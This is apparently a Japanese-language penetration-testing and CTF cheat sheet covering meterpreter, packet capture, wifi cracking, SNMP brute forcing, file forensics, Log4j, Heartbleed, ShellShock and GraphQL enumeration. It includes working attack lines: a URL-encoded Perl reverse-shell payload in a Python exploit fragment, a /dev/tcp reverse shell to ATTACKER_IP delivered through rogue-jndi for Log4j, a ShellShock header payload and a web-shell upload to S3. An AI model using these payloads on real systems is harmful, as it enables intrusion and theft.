| background | 現在のセッションをバックグラウンドに回す                                   |
| guid       | セッションGUID(Global Unique ID)を表示                         |
| info       | モジュールの情報を表示                                            |
| irb        | 現在のセッションで対話的Ruby shellを開く                              |
| load       | meterpreter extentionsを開く                              |
| migrate    | meterpreterを別のプロセスに移す                                  |
| run        | meterpreterを実行                                         |
| sessions   | 別のセッションに移動                                             |
| edit       | ファイルを編集                                                |
| search     | ファイルを探す                                                |
| upload     | ファイルまたはディレクトリをアップロード                                   |
| download   | ファイルまたはディレクトリをダウンロード                                   |
| arp        | ホストARPキャッシュを表示                                         |
| portfwd    | 遠隔サービスへポート転送                                           |
| route      | ルーティングテーブルを表示・修正                                       |
| hashdump   | SAM(Security Account Manager)データベースを表示                 |
| shell      | 攻撃対象のシステムのコマンドラインシェルを開始。ctrl + zでmeterpreterに戻ることができる。 |

## stty

端末情報を表示。ターミナルのttyサイズは標準的なshellであれば自動的に変更されるが、リバースシェルやバインドシェルにおいてテキストエディタを使いたい場合などは手動で設定する必要がある。
```bash
# 端末情報を表示
stty -a

# 行のサイズを設定
stty rows NUMBER

# 列のサイズを設定
stty cols NUMBER
```
## rlwrap

netcatなどでリバースシェルを構築する際に、矢印キーでのコマンド履歴表示や行編集(backspace)などを可能にするコマンド。

```powershell
rlwrap nc -lvnp PORT_NUMBER
```
# Network
## wireshark
ネットワークを流れるデータを取得するソフトウェア。
## tcpdump

CUIのパケットキャプチャツール。

```bash
tcpdump OPTIONS FILTER
```

|**オプション**|**説明**|
|---|---|
|**`-i <interface>`**|パケットをキャプチャするインターフェースを指定します。**`any`**を指定するとすべてのインターフェースが対象になります。|
|**`-v`**, **`-vv`**, **`-vvv`**|パケットの詳細を増やして表示します。**`-vv`**や**`-vvv`**はさらに詳細な情報を提供します。|
|**`-c <count>`**|キャプチャするパケットの数を指定します。この数に達すると**`tcpdump`**は終了します。|
|**`-w <file>`**|キャプチャしたパケットを指定したファイルに保存します。|
|**`-r <file>`**|保存されたパケットデータをファイルから読み込みます。|
|**`-s <size>`**|キャプチャするパケットのサイズをバイト単位で指定します。デフォルトではパケット全体をキャプチャします。|
|**`-t`**|キャプチャした各パケットのタイムスタンプを表示しません。|
|**`-n`**|ネットワークアドレスとポート番号を名前解決せずに数値で表示します。|
|**`-e`**|各パケットのイーサネットヘッダーも表示します。|
|**`-q`**|より簡略化された出力を提供します。|
|**`-A`**|キャプチャしたパケットのペイロードをASCIIで表示します。|
|**`-X`**, **`-XX`**|パケットの内容を十六進数とASCIIで表示します。**`-XX`**はイーサネットヘッダも表示します。|
|**`-port <port>`**|特定のポートを使用するパケットのみをキャプチャします。|
|**`-host <host>`**|特定のホストのパケットのみをキャプチャします。|
|**`-tcp`**|TCPパケットのみをキャプチャします。|
|**`-udp`**|UDPパケットのみをキャプチャします。|

使用例
```bash
# 任意のインターフェース上でIPアドレス192.168.1.1と192.168.1.2の間の通信をキャプチャ
tcpdump host 192.168.1.1 and host 192.168.1.2

# インターフェースeth0でIPアドレス10.0.0.5と特定のポート80を使用する通信をキャプチャ
tcpdump -i eth0 host 10.0.0.5 and port 80

# インターフェースeth0で特定のネットワーク192.168.100.0/24内のすべてのTCP通信をキャプチャ
tcpdump -i eth0 net 192.168.100.0/24 and 

# インターフェースwlan0で特定のポート22（SSH）を使用する通信をキャプチャし、詳細情報を表示
tcpdump -i wlan0 port 22 -vv

# 保存されたファイルmycapture.pcapからパケットを読み込み、出力する
tcpdump -r mycapture.pcap
```
### SSH Remote Capture
仮想マシンの通信をローカルマシンでキャプチャするための方法。wiresharkの設定で仮想マシンのIPアドレスとポート(22)などを設定する必要がある。
wiresharkはGUIツールであり、実際にキャプチャを行うのはtcpdumpというコマンド。仮想マシンのユーザにこのtcpdumpを実行する権限がないと以下のようなエラーが出る。
```bash
Error from extcap pipe: tcpdump: eth0: You don't have permission to perform this capture on that device (socket: Operation not permitted)
```
remote capture commandにsudoでtcpdumpを実行するコマンドを入力すればいいらしいが、うまくいかなかったので仕方なく**`cap_net_raw`** と **`cap_net_admin`** の2つの capability を **`tcpdump`** 実行ファイルに付与した。
```bash
sudo setcap 'CAP_NET_RAW+eip CAP_NET_ADMIN+eip' /usr/sbin/tcpdump
```
### フィルタ
キャプチャした結果をフィルタリングする表示フィルタと特定のパケットのみを取得するキャプチャフィルタがある。
フィルタは専用の構文を用いて記述する。
## pingスイープ

ネットワーク内に端末が存在するか調べるためにpingで広域スキャンする。

### fping

```bash
fping -aqg IP_ADDRESS/RANGE
```
オプションは以下。

|オプション|説明|
|---|---|
|-a|aliveなホストのみ表示|
|-q|quietモード。ターゲットごとの結果を表示しない|
|-g|ターゲットリストを作成|

### netdiscover
fpingだと検知されないものもある。
```bash
sudo netdiscover -i eth0 -r 192.168.56.0/24
```
### arp-scan
LAN内に所属する端末のIPアドレスを特定する。
```bash
# -lオプションでlocalhostを指定する
sudo arp-scan -l
```
## .cpaファイル

パケットキャプチャ―ファイル。wiresharkなどのキャプチャ結果が保存されている。
ファイルの基本情報は `capinfos` コマンドで調べられる。
```bash
capinfos FILE_NAME
```
wiresharkのCUI版であるtsharkを用いてcapファイルの情報を調べられる。
プロトコルごとの統計を表示するには以下のコマンドを使う。
```bash
tshark -r FILE_NAME -q -z io,phs
```
もちろんwiresharkを開いてcpaの中身を見ることもできる。

|option|explanation|
|---|---|
|-q|統計情報のみ表示|
|-r|引数にパケットファイルをとる|
|-z io,phs|統計情報をプロトコル階層で表示|

## aircrack-ng
cpaファイルからwifiのパスワードを解析するツール。
```bash
aircrack-ng FILE_NAME -w WORDLIST_PATH
```
解析したパスワードはcpaファイル中のESSIDと併用することが多い。
近くを飛んでいるwifiの一覧取得や通信のキャプチャはairportコマンドを用いる。
```bash
# wifi一覧取得
sudo airport -s

# チャンネル上の通信をキャプチャ(en0は環境によってはen1)
sudo airport en0 sniff CHANNEL_NUMBER
```
## ESSID
Extended Service Set Identifierの略。 無線LAN通信の際に、ネットワーク同士の混信などを防ぐために設定されるIDのこと。
## wifiの暗号化方式

| 方式                                  | 特徴                                                                                                                                                                                                   |
| ----------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| WEP (Wired Equivalent Privacy)      | 1997年に導入された最初のWi-Fi保護標準ですが、脆弱性が多く、容易にハックされるため、今日では推奨されていません。主な脆弱性には、暗号鍵が静的であり、容易に解読され得る点があります。                                                                                                       |
| WPA (Wi-Fi Protected Access)        | WEPの脆弱性に対処するために2003年に導入されました。WPAはTemporal Key Integrity Protocol (TKIP) を使用してセキュリティを強化しましたが、それでもなお脆弱性があり、中程度のセキュリティを提供します。                                                                           |
| WPA2 (Wi-Fi Protected Access 2)     | 2004年に導入されたこの方式は、より安全なAdvanced Encryption Standard (AES) を使用しています。WPA2は、セキュリティの面で大幅に改善され、現在の標準として広く使用されています。ただし、2017年に発覚したKRACK (Key Reinstallation Attack) という脆弱性があり、攻撃者がネットワークトラフィックを傍受する可能性があります。 |
| **WPA3 (Wi-Fi Protected Access 3)** | 2018年に導入された最新のセキュリティ標準で、前のバージョンの脆弱性を修正し、さらに強化された暗号化と認証機能を提供しています。WPA3は、Simultaneous Authentication of Equals (SAE) という新しいプロトコルを使用して、パスワードの推測攻撃に対する耐性を高めています。                                         |
## netexec

ネットワーク接続をテストするコマンド。SSHアクセスのチェックに有効。

```bash
netexec ssh TARGET_IP -u USER_NAME -p "PASSWORD"
```
## ProxyChains

プロキシを介してアプリケーションのネットワーク通信をルーティングするツール。特定のアプリケーションがプロキシ設定に対応していない場合でも経由するプロキシを指定できる。

設定ファイルは `/etc/proxychains.conf` など。

設定例

```bash
[ProxyList]
PROXY_NAME IP PORT (USERNAME PASSWORD)
```

任意のコマンドの前に `proxychains` コマンドを入力すればよい。

```bash
proxychains ARBITRARY_COMMAND
```
## SNMP
Simple Network Management Protocol.

ネットワーク機器を監視・管理するためのプロトコル。監視サーバであるマネージャ、監視対象の機器であるエージェントの2つの要素で構成される。マネージャがエージェントに問い合わせてエージェントが情報を回答(ポーリング)したり、エージェントからマネージャにトラップ(通知)を送信したりする。
### MIB
各エージェントが持つ自身に関する情報のデータベースのようなもの。階層構造のOID(Object Identifier)で構成される。
### Versions
- **SNMPv1**：最初のバージョン。認証がCommunity Stringだけで脆弱。
- **SNMPv2c**：改良版だが、認証はv1と同じく弱い。
- **SNMPv3**：ユーザー認証・暗号化を導入して安全性が大幅に改善。
### Community String
SNMPv1/2cにおける認証用のパスワードのような文字列。
SNMPリクエストを送るときにCommunity Stringを一緒に送信し、これが正しい場合にのみ対象機器が応答する。代表的には読み取り専用の`public`と読み書き可能な`private`が存在するが、これ以外にも任意の名前を設定できる。
### Tools
#### nmap
```bash
nmap $IP -sUCV -T4 -p 161
```
#### onesixtyone

```cardlink
url: https://github.com/trailofbits/onesixtyone
title: "GitHub - trailofbits/onesixtyone: Fast SNMP Scanner"
description: "Fast SNMP Scanner. Contribute to trailofbits/onesixtyone development by creating an account on GitHub."
host: github.com
favicon: https://github.githubassets.com/favicons/favicon.svg
image: https://opengraph.githubassets.com/6de4307504f8ffac7d42d654fd0c564b76f8791de7d7851315765e455af0161c/trailofbits/onesixtyone
```
[GitHub - trailofbits/onesixtyone: Fast SNMP Scanner](https://github.com/trailofbits/onesixtyone)
Community Stringのブルートフォースツール。
```bash
onesixtyone TARGET_IP -c WORD_LIST
```
#### snmpwalk
SNMPのMIBの階層構造を利用し、OIDから下位のノードを順にたどって値を取得するコマンド。SNMPのCommunity Stringが判明している場合などにおいて情報列挙に使用。
```bash
snmpwalk -vVERSION -c COMMUNITY_STRING TARGET_IP
```
IPアドレスの情報を取得するにはIPアドレスに関する情報を持つOIDを指定して実行する。
```bash
snmpwalk -v2c -c public $IP 1.3.6.1.2.1.4.34.1.3
```
`1.3.6.1.2.1.4.34.1.3`というOIDは`ipAddressIfIndex`という属性に対応している。
- 1.3.6.1.2.1.4.34 = `ipAddressTable`
- 1.3 = `ipAddressIfIndex`
- .2 = `IPv6` address type (1 = `IPv4`, 2 = `IPv6`)
`snmpwalk`のバージョンによってはIPv6アドレスが10進数で表示されることがあるのでAIなどを使って変換すること。
# Crypto
## CyberChef

様々なフォーマットのエンコード・デコードに対応したツール。

[CyberChef](https://gchq.github.io/CyberChef/)
## Depix
モザイクのかかった画像を解読するプログラム。

```cardlink
url: https://github.com/spipm/Depixelization_poc
title: "GitHub - spipm/Depixelization_poc: Depix is a PoC for a technique to recover plaintext from pixelized screenshots."
description: "Depix is a PoC for a technique to recover plaintext from pixelized screenshots. - spipm/Depixelization_poc"
host: github.com
favicon: https://github.githubassets.com/favicons/favicon.svg
image: https://opengraph.githubassets.com/c5b4a7e4fa39ede082966e3912788f6f3a6c236932ef64b90358e257e5e3982b/spipm/Depixelization_poc
```
[GitHub - spipm/Depixelization\_poc: Depix is a PoC for a technique to recover plaintext from pixelized screenshots.](https://github.com/spipm/Depixelization_poc)
## PuTTY

windowsで利用するための鍵フォーマット。拡張子は `.ppk` 。秘密鍵と公開鍵が一つのファイルに同梱されている。

### PuTTYgen

PuTTY形式の鍵の生成コマンド。

```bash
# 鍵の生成
puttygen -t rsa -b 4096 -o mykey.ppk

# OpenSSH鍵をPuTTY形式に変更
puttygen id_rsa -o mykey.ppk

# PuTTY形式の鍵をOpenSSH形式に変換
puttygen mykey.ppk -O private-openssh -o id_rsa

# PuTTY形式の秘密鍵から公開鍵を抽出
puttygen mykey.ppk -L
```

| オプション | 説明                          |
| ----- | --------------------------- |
| -t    | 鍵のタイプ(rsa, ed25519など)を引数に取る |
| -b    | ビット長を引数に取る                  |
| -o    | 出力ファイル名を引数に取る               |
| -C    | コメントを引数に取る                  |
| -L    | 公開鍵を表示する                    |
| -O    | 出力形式を引数に取る                  |
## KeePass
パスワード管理ソフト。パスワードを暗号化されたデータベース( `.kdb` や `.kdbx` )に保存する。
### kpcli
LinuxにおいてKeePassデータベースを操作できるCLI。
```powershell
kpcli --kdb=mydatabase.kdbx
```
パスワードが掛かっている場合は `keepass2john` などでクラック。
```powershell
keepass2john mydatabase.kdbx
```
## Padding Oracle Attack

```cardlink
url: https://partender810.hatenablog.com/entry/2021/06/08/225105
title: "Padding Oracle Attack 分かりやすく解説したい - Attack All Around"
description: "Padding Oracle Attack, AESを使うCTF問題で一番難しいのではないのでしょうか。僕もこれがあるせいでAES問題に強い苦手意識がありました。僕と同じような方も、この記事で得意になってくれると嬉しいです！Padding Oracle Attackが理解できると、どんなAES問題も強気で解きにいけると思います！ AESとは いつもの。 暗号利用モード - Wikipedia ブロック暗号の代表格ですね。あまり言うと違うよとお叱りを受けそうなのですが、DESに脆弱性が発見されてからAESが主流となり推奨されているといった感じです。 ブロック暗号とは、平文をN文字ずつ分けそれぞれ…"
host: partender810.hatenablog.com
favicon: https://partender810.hatenablog.com/icon/link
image: https://cdn.image.st-hatena.com/image/scale/b604d70237c2fbc77155ee795cc3957291ebb324/backend=imagemagick;version=1;width=1300/https%3A%2F%2Fcdn-ak.f.st-hatena.com%2Fimages%2Ffotolife%2Fp%2Fpartender810%2F20210524%2F20210524231113.png
```
[Padding Oracle Attack 分かりやすく解説したい - Attack All Around](https://partender810.hatenablog.com/entry/2021/06/08/225105)
## Padbuster
Padding Oracle Attackの自動化ツール。

```cardlink
url: https://github.com/AonCyberLabs/PadBuster
title: "GitHub - AonCyberLabs/PadBuster: Automated script for performing Padding Oracle attacks"
description: "Automated script for performing Padding Oracle attacks - AonCyberLabs/PadBuster"
host: github.com
favicon: https://github.githubassets.com/favicons/favicon.svg
image: https://opengraph.githubassets.com/dc146ea9582d1652891c6ee341289b4aa280d3c94831dfb7e0ed4fd65bae781e/AonCyberLabs/PadBuster
```
[GitHub - AonCyberLabs/PadBuster: Automated script for performing Padding Oracle attacks](https://github.com/AonCyberLabs/PadBuster)
# Rev
## strings
バイナリファイルやその他の非テキストファイルからプリント可能な文字列を抽出するlinux標準コマンド。
```bash
strings FILE_NAME
```
通常のstringsはASCIIや7bitの文字列を探すが、バイナリや実行ファイルの中にはUTF-16形式で文字列が保存されている場合がある。

|オプション|説明|
|---|---|
|-eB|ビッグエンディアンのUTF-16文字列を抽出|
|-el|リトルエンディアンのUTF-16文字列を抽出|
|-n|抽出する最小文字列長を引数に取る。デフォルトは4|

## ltrace
linux上で動作するプログラムが呼び出すライブラリ関数をトレースするツール。引数に取ったプログラムを実行し、ライブラリ関数が呼び出されたらリアルタイムで表示する。
```bash
ltrace PROGRAM_PATH
```
## od
バイナリファイルをダンプ(データの内容をそのままの形で可視化または別のフォーマットで出力)するコマンド。
```bash
od -An -s FILE_NAME
```
オプションは以下。

|オプション|説明|
|---|---|
|-An|オフセットを非表示|
|-c|文字列ダンプを有効化|
## ファイル識別

バイナリファイルの場合はヘッダーの識別子(マジックバイト)を確認すればよい。

|ファイル種別|ヘッダー16進数識別子|ヘッダーASCII識別子|フッター識別子 (16進数)|フッター識別子 (ASCII)|
|---|---|---|---|---|
|windowsの実行ファイル(exe, dll, pifなど)|`0x4D 0x5A`|`MZ`|なし|なし|
|linuxの実行ファイル|`0x7F 0x45 0x4C 0x46`|`ELF`|なし|なし|
|ZIPファイル|`0x50 0x4B 0x03 0x04`|`PK..`|`50 4B 05 06`|`PK`|
|RARファイル|`0x52 0x61 0x72 0x21 0x1A`|`Rar!`|`55 52 45 43 0A`|`UREC\\\\n`|
|GIFファイル|`0x47 0x49 0x46 0x38 0x37(0x39) 0x61`|`GIF87a(GIF89a)`|`3B`|`;`|
|JPEGファイル|`0xFF 0xD8 0xFF 0xE0 0xXX 0xXX 0x4A 0x46 0x49 0x46 0x00`|`.リ…JFIF`|`FF D9`|`\\\\xFF\\\\xD9`|
|PNGファイル|`0x89 0x50 0x4E 0x47`|`臼NG`|`49 45 4E 44 AE 42 60 82`|`IEND\\\\xAE\\\\x42\\\\x60\\\\x82`|
|PCAPファイル|`0xD4 0xC3 0xB2 0xA1`|`ﾔﾃｲ。`|`00 00 00 00`|`\\\\x00\\\\x00\\\\x00\\\\x00`|

`xxd` または `hexdump` コマンドを用いて確認できる。

```bash
# ヘッダーだけ見たいので先頭三行のみ表示
xxd FILE_PATH | head -n 3

# -CオプションをつけないとASCIIエリアが出力されない
hexdump -C FILE_PATH | head -n 3
```

テキストファイルはヘッダーやフッターを持たないので上記の識別子は存在しない。
## EXIF

Exchange Image File Format.

画像のメタデータを保存する形式。以下のコマンドで調べることができる。

```bash
exiftool FILE_PATH
```

特定のメタデータを表示したい場合はタグ名をオプションのように用いる。

```bash
exiftool -TAGNAME FILE_PATH

# 例
exiftool -DateTimeOriginal photo.jpg
```

メタデータを編集したい場合は以下のようにする。

```bash
exiftool -TAGNAME=NEWVALUE FILE_PATH

# 例
exiftool -Artist="John Doe" photo.jpg
```
## foremost

バイナリデータから特定のファイルタイプを識別して回復することができる。

```bash
foremost -i INPUT_FILE
```

### オプション

|**オプション**|**説明**|
|---|---|
|**`-i`**|入力ファイルまたはデバイスを指定します。|
|**`-o`**|復旧したファイルを保存する出力ディレクトリを指定します。|
|**`-t`**|特定のファイルタイプのみを復旧するためのオプションです。例えば **`-t jpg`** はJPEG画像のみを回復します。|
|**`-a`**|オーディットファイル（foremost.log）の作成を無効にします。デフォルトでは、このログファイルには処理の詳細が記録されます。|
|**`-v`**|詳細な情報を表示します。処理の進行状況や統計情報が詳しく表示されます。|
|**`-d`**|削除されたファイルを検索する際に、ディレクトリ構造を無視して検索します。|
|**`-w`**|HTML形式でレポートを生成します。このオプションを使用すると、復旧プロセスの結果を視覚的に確認することができます。|
|**`-c`**|使用する設定ファイルを指定します。このオプションを利用することで、デフォルトの設定をカスタマイズすることが可能です。|
## zipinfo

zipファイルを展開せずに中身の情報を調べることができるツール。

```bash
zipinfo OPTIONS ZIP_FILE
```

### オプション

|**オプション**|**説明**|
|---|---|
|**`-1`**|ファイル名のみをリストアップし、他の情報は表示しません。|
|**`-2`**|サブディレクトリの内容も含めてファイル名を表示します。|
|**`-l`**|長いリスト形式で情報を表示します。詳細なファイル情報が含まれます。|
|**`-t`**|アーカイブ内のファイルの総数と、アーカイブ全体のサイズを表示します。|
|**`-h`**|圧縮ファイルヘッダー情報を表示します。|
## xxd
バイナリファイルと16進数の相互変換を行うコマンド。
```bash
# ファイルの16進数ダンプを表示
xxd FILR
>>>
00000000: 4865 6c6c 6f20 576f 726c 6421 0a        Hello World!.
```
出力の左端はオフセット(アドレス)、中央は16進数、左端はASCIIを示す。
16進数からバイナリファイルに逆変換するには以下。
```bash
xxd -r -p hex.txt > output.bin
```
`-p` オプションを付けるとオフセットやASCII部分のない16進数の文字列のみを出力する。
# Forensics
## rmで削除されたファイルのリカバリ
Linuxなどの多くのOSのファイルシステムでは `rm`コマンドでファイルを削除してもデータの実体はすぐには削除されない。実際にはディレクトリから対象ファイル名とiノードとの対応エントリが削除され、iノードの参照カウントが減らされる。参照カウントが0になるとOSにより当該ファイルが存在する領域は自由に使われるが、データの中身はディスク上に存在する。
ファイルを完全に削除するには `shred`や `dd` コマンドで上書き削除する必要がある。ただしこれらのコマンドはファイルが現在割り当てているブロックを上書きして読み取れなくするだけなのでジャーナリングFS、CoWFS、スナップショット、NFS、キャッシュ、RAIDなどでは意図した場所が書き変わらず、完全に削除されない可能性がある。
```bash
# 3回ランダムデータで上書きしたあとゼロで覆いファイルを削除
shred -u -n 3 -z file.txt

# ファイルを上書きして削除
dd if=/dev/zero of=file
```
# Certification
## OpenSSL

ハッシュ・共通鍵暗号・公開鍵暗号・署名に関する機能を集約したソフトウェア。

### パスワードハッシュの生成

```bash
openssl passwd OPTIONS PASSWORD
```

オプションは以下。

|オプション|説明|
|---|---|
|-1|MD5ベースの暗号化|
|-5|SHA-256ベースの暗号化|
|-6|SHA-512ベースの暗号化|
|-salt|引数に特定のソルトを指定。指定しない場合はランダムなソルトが生成。|
|-table|生成されたハッシュを表形式で表示|
|-quiet|警告メッセージを抑制|

### kaliのopensslの設定

ターゲットが古いSSL/TLSプロトコルを利用していることによるエラーの発生を防ぐため、 `/etc/ssl/openssl.conf`の設定を以下のように修正。 `MinProtocol`と `CipherString`を `None`にしておく。

```bash
[system_default_sect]
#MinProtocol = DEFAULT@SECLEVEL=2
MinProtocol = None
#CipherString = DEFAULT@SECLEVEL=2
CipherString = None
```

またブラウザで古いプロトコルを利用しているwebアプリにアクセスするにはブラウザが利用可能な最小のTLSバージョンを設定で変更する必要がある場合がある。

SSL/TLSプロトコルを用いているwebアプリに対するpythonのexploitで `urllib2.urlopen`を用いている場合は引数に以下のような修正( `ctx`)を加えると有効な場合がある。

```python
ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib2.urlopen(url,context=ctx)
```

### 秘密鍵と証明書(公開鍵)のファイルからそれぞれ分けて生成

pfxのような秘密鍵と公開鍵のペア情報のファイルから秘密鍵と公開鍵をそれぞれ生成する。

秘密鍵をエンコードして出力

```bash
openssl pkcs12 -in PFX_FILE -nocerts -out KEY_ENC
```

エンコードした秘密鍵をデコード

```bash
openssl rsa -in KEY_ENC -out KEY
```

証明書を出力

```bash
openssl pkcs12 -in PFX_FILE -clcerts -nokeys -out CERTIFICATE
```
# Cloud
## AWS

AWS CLIを用いてコマンドラインでAWSを操作することができる。

```bash
aws configure
```

以上のコマンドでAWSの認証情報を入力する。ペネトレ対象によっては認証情報のチェックを行っていない場合があるので適当に `tmp`などの値を入力しておく。

### S3

通常AWS CLIはデフォルトでAmazonの公式S3エンドポイントを使うが、`--endpoint` オプションに任意のS3のURLを入力することができる。これにより独自のS3互換ストレージやローカルやプライベート環境で動作するS3サービスを指定することができる。

```bash
aws --endpoint=ENDPOINT_URL s3

# 任意のバケット内のオブジェクト一覧を表示
aws s3 ls s3://BUCKET_NAME/
```

AWS CLIでは `cp` コマンドも用いることができるので、権限があればローカル環境の任意のファイルをS3にアップロードすることができる。これを利用してリバースシェルをアップロードすることができる。

```bash
aws --endpoint=ENDPOINT_URL s3 cp shell.php s3://BUCKET_NAME/
```
# Popular vulnerabilities
## Log4j

Apacheサーバーで広く使用されているJavaのログ取得ライブラリのLog4jの脆弱性。任意のOSコマンドを実行できる可能性がある。仕組みは上図参照。

要は攻撃者側でLDAPサーバとHTTPサーバを用意したうえで、何らかの形で `${jndi:ldap://ATTACKER_IP/XXXX}` の文字列を攻撃対象のサーバで稼働するLog4jに読み込ませれば良い。

### UnifiにおけるLog4jの利用

#### Open-JDK

Java Development kit.

Javaアプリケーションをビルドするために使用。

#### Maven

JavaのIDE。Javaプロジェクトの作成とコンパイルのために使用。

#### rogue-jndi

ローカルでLDAPサーバを立ち上げるコマンド。

#### 利用手順
GitHubからrogue-jndiをcloneする。
```bash
git clone <https://github.com/veracode-research/rogue-jndi>
```
パッケージを作成。
```bash
cd rogue-jndi
mvn package
```
パッケージを作成すると `rogue-jndi/target/` ディレクトリ内に `RogueJndi-1.1/jar` というファイルが作成されるので以下のシェルを起動するコマンドをエンコードしておく。コマンドの内容は上図の④に相当する。
```bash
echo 'bash -c bash -i >&/dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1' |
base64
```
rogue-jndiを利用して作成したコマンドを送信する。 `--command` オプションの内容は上図の③に相当する。
```bash
java -jar target/RogueJndi-1.1.jar --command "bash -c BASE64_STRING|
{base64,-d}|{bash,-i}" --hostname "ATTACKER_IP"
```
ポートを開放してリバースシェルを待ち受ける。
```bash
nc -lvnp ATTACKER_PORT
```
unifiを利用して`${jndi:ldap://ATTACKER_IP/o=tomcat}` の文字列を含むリクエストを送る。
シェル奪取後、対話型シェルにアップグレードしておく。
```bash
script /dev/null -c bash
```
[Another Log4j on the fire: Unifi](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi)
### JNDI
Java Naming and Directory Interface.
JavaプログラムからLDAPなどのさまざまなディレクトリサービスにアクセスする標準的なAPI仕様を定義したもの。デフォルトのポートは7780。
### LDAP
Lightweight Directory Access Protocol.
ディレクトリサービスにアクセスするためのプロトコル。デフォルトのポートは389。
## Heatbleed
OpenSSLの脆弱性。サーバのメモリ領域を任意に読み取ることができる。
疎通確認用にクライアントとサーバ間で任意のデータを送り合うHeartbeat Extensionの処理不備が脆弱性の原因。データのサイズを検証していなかった。
フローは以下。
1. クライアントが「ペイロード長 = 64KB」と指定して 1バイトだけ送信
2. サーバーは「64KB 分のデータを返すべき」と誤認し、自分のメモリ領域から 64KB を切り出して返信
3. この中に秘密鍵やパスワードが含まれる

## ShellShock (Bashdoor)
Bashの環境変数の処理にあるバグにより、攻撃者が任意のコードを実行できる脆弱性。主にCGIスクリプトを通じたリモートコード実行に利用される。
関数定義のあとに追加で書いたコマンドが実行される。
```bash
env exploit='() { :; }; echo hacked' bash -c "echo test"

>>>hacked
>>>test
```
CGIを用いた多くのwebアプリではユーザからのHTTPリクエストヘッダの情報を環境変数の定義に利用しているので、 `User-Agent` や `Referer` や `Cookie`などのユーザ情報が入りうるヘッダに上のペイロードを挿入することで任意のコードを実行できる可能性がある。
# Others
## Brainfuck

`>` `<` `+` `-` `.` `,` `[` `]` の8文字で構成されるプログラミング言語。目視で読みにくいのでBoot2Rootのヒントとして使われることがある。

Brainfuckの書く文字を置き換えた派生言語も存在する。

|言語|説明|
|---|---|
|A|Aだけで記述するプログラム言語|
|BrainCrash|`|
|Ook!|オランウータンの鳴き声 `Ook` のみを使ったプログラミング言語。使用する文字列は `Ook.` `Ook!` `Ook?` の3種類のみ。|
## Docker

Docker環境における簡単なコマンド

```bash
# ホストID確認
hostname

# 環境変数確認
printenv
```

### docker inspect

Dockerオブジェクトの詳細な情報をJSON形式で取得するコマンド。

```bash
docker inspect OPTIONS CONTAINER_NAME(ID)

# -formatオプションを用いることで必要な情報のみを抽出できる
# フォーマットの形式はgoの構文を用いることができる

# コンテナ内のすべての情報をJSON形式で取得
docker inspect -format='{{json .}}' CONTAINER

# コンテナ内の環境変数を取得
docker inspect -format='{{range .Config.Env}}{{println .}}{{end}}' CONTAINER
```
## git-dumper
web上のgitレポジトリのダンプファイルを生成するプログラム。ターゲットに `.git` ディレクトリが存在するときに活用できる。
### インストール
```bash
git clone **<https://github.com/arthaud/git-dumper.git>
cd git-dumper
pip install -r requiments.txt**
```
### 利用法

```bash
./git-dumpuer.py TARGET_URL/.git DUMP_FILE
```
## GitLab

Gitをベースにしたソースコード管理などの機能を持つDevOpsプラットフォーム。クラウド版とセルフホスティング版がある。後者では完全にカスタマイズされた環境を構築可能。

config情報は `/etc/gitlab/gitlab.rb` など。

### gitlab-rails

GitLabのCLI。gitlabが動いているサーバー上で利用できる可能性がある。

```bash
# GitLabのコンソールを起動
gitlab-rails console
```

## Remmina

RDPクライアント。

```powershell
# GUIで起動
remmina
```
## NSF
ファイル共有プロトコル。通常2049/TCPを使用。NSFサーバがネットワーク越しにディレクトリをエクスポートし、クライアントがそれをマウントしてローカルディレクトリのように使用できる。Windows ServerにおいてもNSFサーバが存在する場合がある。
マウント可能なパスの有無を調べるには以下のコマンド。
```bash
showmount -e $IP
```
マウント可能なパスが存在した場合は以下のコマンドでマウント。
```bash
sudo mount -t nfs $IP:/path /mnt/
```
## SDF
Standard Database Format.
このデータベースファイルの拡張子は `.sdf` 。
## GraphQL
REST APIに替わるクエリ言語。一度のリクエストで必要な情報のみを取得できる。エンドポイントが一つしかない。デフォルトでは認証機能がない。
### 情報取得
通常POSTメソッドで `query` パラメータの値に必要なクエリ(JSON)を指定する。リクエストの際の `Content-Type` は `application/json` 。
エンドポイントの可能性があるポートなどを発見したら以下のパスを指定してブルートフォースしてみる。
- `/graphql`
- `/graphiql`
- `/graphql.php`
- `/graphql/console`
- `/api`
- `/api/graphql`
- `/graphql/api`
- `/graphql/graphql`
### スキーマ情報の取得
エンドポイント名を発見したら以下のリクエストを送信してスキーマ情報を取得する。
```bash
curl -s DOMAIN/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { queryType { name, fields { name, description } } } }" }' | jq
```
クエリ
```bash
{
  __schema {
    queryType {
      name
      fields {
        name
        description
      }
    }
  }
}
```
`__schema` はGraphQLサーバ全体のスキーマ情報を指す。 `queryType` (あるいは `Query` )はクエリのルートエントリーポイントを指す。 `name` でクエリ型の名前を取得し、 `fields` でフィールド名と説明を取得する。
レスポンス
```bash
{
  "data": {
    "__schema": {
      "queryType": {
        "name": "Query",
        "fields": [
          {
            "name": "user",
            "description": ""
          }
        ]
      }
    }
  }
}
```
### 型の取得
次にGraphQLスキーマの中に定義されているすべての型を取得する。
```bash
curl -s 10.10.10.121:3000/graphql -H "Content-Type: application/json" -d '{ "query": "{ __schema { types { name } } }" }' | jq
```
クエリ
```bash
{
  __schema {
    types {
      name
    }
  }
}
```
レスポンス
```bash
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "User"
        },
        {
          "name": "String"
        },
        {
          "name": "__Schema"
        },
        {
          "name": "__Type"
        },
        {
          "name": "__TypeKind"
        },
        {
          "name": "Boolean"
        },
        {
          "name": "__Field"
        },
        {
          "name": "__InputValue"
        },
        {
          "name": "__EnumValue"
        },
        {
          "name": "__Directive"
        },
        {
          "name": "__DirectiveLocation"
